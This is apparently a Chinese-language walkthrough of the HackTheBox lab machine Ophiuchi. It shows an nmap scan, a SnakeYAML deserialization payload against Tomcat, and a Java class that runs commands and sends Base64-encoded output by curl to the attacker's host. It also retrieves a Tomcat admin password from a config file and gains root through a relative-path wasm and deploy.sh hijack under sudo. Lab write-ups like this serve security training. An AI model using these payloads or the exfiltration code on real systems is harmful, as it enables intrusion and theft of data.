 # Ophiuchi



目标ip：`10.10.10.227`

攻击机ip：`10.10.16.218`



## 信息收集



```shell
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-15 12:42 EDT
Nmap scan report for 10.10.10.227
Host is up (0.70s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 
8080/tcp open  http    Apache Tomcat 9.0.38
```



## web

8080 端口是tomcat，访问之后界面

![image-20210719161625168](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210719161625168.png)猜测是 java 的 yaml 反序列化

查找资料，猜测是SnakeYaml 反序列化

参考资料：https://www.cnblogs.com/nice0e3/p/14514882.html

里面给出了poc

```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://xxxx.com/"]]]]
```

首先进行测试

```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.16.218:9090/yaml_poc_test"]]]]
```

并且在攻击机开启http服务

![image-20210719161930501](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210719161930501.png)

发送poc后收到了http请求

![image-20210719162010714](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210719162010714.png)

证明漏洞存在

修改[github的poc](https://github.com/artsploit/yaml-payload/)，写成一个命令回显的类

```java
public AwesomeScriptEngineFactory() throws Exception{
    try {
        Runtime.getRuntime().exec("curl http://10.10.16.218:9090/start");

        String result = "";

        String cmd = "ls";
        if (cmd != null && cmd.length() > 0) {
            Process p = Runtime.getRuntime().exec(cmd);
            java.io.OutputStream os = p.getOutputStream();
            java.io.InputStream in = p.getInputStream();
            java.io.DataInputStream dis = new java.io.DataInputStream(in);

            for (String disr = dis.readLine(); disr != null; disr = dis.readLine()) {
                result = result + disr + "\n";
            }
        }

        Runtime.getRuntime().exec("curl http://10.10.16.218:9090/" + Base64.getEncoder().encodeToString(result.getBytes()));

    } catch (IOException e) {
        Runtime.getRuntime().exec("curl http://10.10.16.218:9090/" + Base64.getEncoder().encodeToString(e.getMessage().getBytes()));
    } finally {
        Runtime.getRuntime().exec("curl http://10.10.16.218:9090/finally");
    }
}
```

<font color='red'>1.  为什么这里不直接反弹shell？ 因为网络波动太大，弹了好几次都会断。 2.  那为什么不用bind shell？ 因为靶机会重启。</font>

使用java8环境编译（高版本Java会报错），使用poc触发漏洞

![image-20210719162523463](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210719162523463.png)

解码之后回显结果

```shell
# ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
```

查看进程

```shell
# ps -auxwww 
....
tomcat       833  0.4  4.4 3610268 178520 ?      Sl   07:43   0:11 /usr/lib/jvm/java-1.11.0-openjdk-amd64/bin/java -Djava.util.logging.config.file=/opt/tomcat/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djava.awt.headless=true -Djava.security.egd=file:/dev/./urandom -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 -Xms512M -Xmx1024M -server -XX:+UseParallelGC -Dignore.endorsed.dirs= -classpath /opt/tomcat/bin/bootstrap.jar:/opt/tomcat/bin/tomcat-juli.jar -Dcatalina.base=/opt/tomcat -Dcatalina.home=/opt/tomcat -Djava.io.tmpdir=/opt/tomcat/temp org.apache.catalina.startup.Bootstrap start
...
```

得到了tomcat所在的路径，翻找配置文件，在`/opt/tomcat/conf/tomcat-users.xml`中，找到了用户名和密码

```xml
<?xml version="1.0" encoding="UTF-8"?>
....
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
....
</tomcat-users>
```



## 提权

使用 admin 用户连接到目标靶机

`sudo -l` 发现可以免密使用

![image-20210719163250823](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210719163250823.png)

在发现 /usr/bin/go 和 index.go 都没有权限修改之后，查看一下 index.go 的源码

```go
package main

import (
 "fmt"
 wasm "github.com/wasmerio/wasmer-go/wasmer"
 "os/exec"
 "log"
)


func main() {
 bytes, _ := wasm.ReadBytes("main.wasm")

 instance, _ := wasm.NewInstance(bytes)
 defer instance.Close()
 init := instance.Exports["info"]
 result,_ := init()
 f := result.String()
 if (f != "1") {
  fmt.Println("Not ready to deploy")
 } else {
  fmt.Println("Ready to deploy")
  out, err := exec.Command("/bin/sh", "deploy.sh").Output()
  if err != nil {
   log.Fatal(err)
  }
  fmt.Println(string(out))
 }
}

```

读源码可知，调用了外部的 main.wasm（花时间稍微研究了一下wasm）。如果wasm中的info函数返回了1，那就执行`deploy.sh`脚本

由于使用的是相对路径，会发生路径劫持攻击

1.  照[这个例子](https://developer.mozilla.org/zh-CN/docs/WebAssembly/C_to_wasm)，写一个c文件

    ```c
    #include <emscripten/emscripten.h>
    
    
    #ifdef __cplusplus
    extern "C" {
    #endif
    
    int EMSCRIPTEN_KEEPALIVE info() {
      return 1;
    }
    
    #ifdef __cplusplus
    }
    #endif
    ```

    

2.  编译 `emcc test.c -s WASM=1 --no-entry -o main.wasm`

    ![image-20210719163735073](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210719163735073.png)

3.  上传文件

4.  执行`sudo -u root /usr/bin/go run /opt/wasm-functions/index.go`

其中 `deploy.sh` 内容为 `id`

得到root权限

![image-20210719163903384](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210719163903384.png)

